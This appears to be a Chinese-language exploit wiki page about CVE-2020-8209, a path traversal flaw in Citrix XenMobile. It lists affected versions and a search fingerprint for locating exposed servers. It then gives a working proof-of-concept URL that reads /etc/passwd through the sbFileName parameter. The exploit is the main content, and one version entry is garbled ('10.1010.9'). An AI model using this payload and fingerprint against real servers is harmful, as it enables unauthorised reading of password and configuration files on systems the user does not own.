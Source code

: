 # Citrix XenMobile 任意文件读取 CVE-2020-8209

## 漏洞描述

XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 影响版本

<a-checkbox checked>RP2之前的XenMobile服务器10.12</a-checkbox></br>

<a-checkbox checked>RP4之前的XenMobile服务器10.11</a-checkbox></br>

<a-checkbox checked>RP6之前的XenMobile服务器10.1010.9</a-checkbox></br>

<a-checkbox checked>RP5之前的XenMobile服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="XenMobile"</a-checkbox></br>

## 漏洞复现

验证POC

```
/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/xen-1.png)